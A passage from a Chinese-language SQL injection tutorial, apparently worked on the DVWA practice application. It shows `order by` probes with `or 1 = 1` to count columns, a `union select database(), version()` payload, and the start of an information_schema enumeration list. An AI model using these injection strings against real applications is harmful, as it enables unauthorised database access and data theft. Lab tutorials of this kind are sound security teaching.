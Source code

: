 `union` 查询的表的列数要一致。

注入的时候可以用  `order by 2` 去知道后端查询语句有多少列：`1' order by  2#`

`order by <number>` 这里是根据查询结果中的某列进行排序，如果 `number` 大于查询出来的列出，那么会报错：

```sql
# 根据结果第一列进行排序 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 1 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Bob        | Smith     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第二列进行排序，正常 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 2 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
| Bob        | Smith     |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第三列进行排序，报错 ❌
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 3 #'
    -> ;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'
```

构造 `union` 语句获取数据库名称和版本：`1' union select database(), version() ;#`

![](http://img.wukaipeng.com/2023/0922-085205-image-20230922085204940.png)

🌟 数据库  `information_schema` 

三个重要的表：

1. `SCHEMATA`： 包含所有数据库的名字
2. `TABLES`：包含所有数据库的所有表，默认字段为 `table_name`
3. `COLUMNS`：包含所有数据的所有表的所有字段

三个重要的列
